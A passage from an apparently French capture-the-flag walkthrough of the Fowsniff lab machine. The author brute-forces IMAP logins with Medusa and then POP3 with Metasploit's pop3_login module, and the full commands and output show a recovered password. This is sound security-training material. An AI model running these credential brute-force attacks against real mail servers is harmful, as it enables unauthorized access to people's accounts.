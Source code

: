 Un coup dans l'eau pour SSH. Quid du serveur de messagerie ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M imap
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: scoobydoo2 (5 of 8 complete)
--snip--
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT FOUND: [imap] Host: 192.168.56.101 User: seina Password: scoobydoo2 [SUCCESS]
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: bilbo101 (2 of 8 complete)
--snip--
```

Bingo ! On retrouve le même résultat avec le module ```pop3_login``` de Metasploit.

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > use auxiliary/scanner/pop3/pop3_login

msf auxiliary(scanner/pop3/pop3_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101

msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE fowsniff.credentials
USERPASS_FILE => fowsniff.credentials

msf auxiliary(scanner/pop3/pop3_login) > set THREADS 4
THREADS => 4

msf auxiliary(scanner/pop3/pop3_login) > run

[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mauer:mailcall', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mustikka:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'tegel:apples01', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'baksteen:skyler22', '-ERR [AUTH] Authentication failed.'
[+] 192.168.56.101:110    - 192.168.56.101:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mursten:carp4ever', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'parede:orlando12', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'sciana:07011972', '-ERR [AUTH] Authentication failed.'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```